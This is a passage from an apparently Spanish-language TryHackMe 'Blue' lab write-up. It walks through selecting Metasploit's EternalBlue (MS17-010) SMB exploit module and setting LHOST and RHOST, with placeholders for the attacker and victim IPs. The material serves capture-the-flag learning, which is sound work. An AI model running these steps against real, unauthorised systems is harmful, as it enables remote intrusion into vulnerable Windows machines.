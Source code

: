 ![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-11-15-Blue-TryHackMe/5.png)

Posteriormente elegiremos el _exploit_ a utilizar; de hecho, una de las preguntas de la plataforma justamente es, introducir el _exploit_ que vamos a utilizar.

```      
use exploit/windows/smb/ms17_010_eternalblue
```  

Una vez hemos seleccionado el _exploit_, procederemos a configurar tanto el `LHOST` como el `RHOST`, que, dicho de otra forma, procederemos a introducir nuestra _IP_, y la _IP_ de la máquina víctima.

```      
show options
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-11-15-Blue-TryHackMe/6.png)

```      
set LHOST <nuestra IP> 
set RHOST <IP víctima>
```
